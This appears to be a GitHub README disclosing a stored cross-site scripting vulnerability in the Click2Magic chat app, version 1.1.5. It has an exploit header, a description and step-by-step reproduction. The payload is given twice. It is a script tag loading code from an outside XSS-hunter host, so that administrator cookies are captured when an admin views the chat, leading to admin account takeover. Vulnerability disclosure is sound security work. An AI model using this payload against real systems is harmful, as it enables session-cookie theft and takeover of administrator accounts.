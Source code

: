 # CVE
This is my Repo for the CVE MITRE 



# Exploit Title: [Stored Cross Site Scripting]
# Date: 05/04/2022
# Exploit Author: [Shivam Verma]
# Vendor Homepage: [https://www.click2magic.com/]
# Software Link: [https://play.google.com/store/apps/details?id=com.tvisha.click2magic&hl=en_IN]
# Version: [1.1.5] 
# Tested on: [Kali Linux 2021.4]


Vulnerability Name: Stored Cross Site Scripting
Vulnerability Description: In this Scenario the payload is getting stored in the Server and delivering us the admin cookies we can capture admin cookies and see all the data in admin panel

Payload: "><script src=https://nick413.xss.ht></script>

Steps to reproduce: 
Step1: Goto Url: https://www.click2magic.com OR Download the app from the above link
STep2: Start a chat 
Step3: Put payload in the chat box
Payload: "><script src=https://nick413.xss.ht></script>
Step4: Wait for the admin to click on the link 
Step5: you will see the popup and getting admin cookies Confirming the Execution of payload

POC: 
![Screenshot (217)](https://user-images.githubusercontent.com/71320606/161679689-af4f576f-1df9-46a4-9c65-86d168e3f277.png)

Admin Account takeover Screenshot

![WhatsApp Image 2022-04-05 at 10 47 03 AM](https://user-images.githubusercontent.com/71320606/161683950-e137aea3-f505-4162-bd82-405cfeb53c85.jpeg)
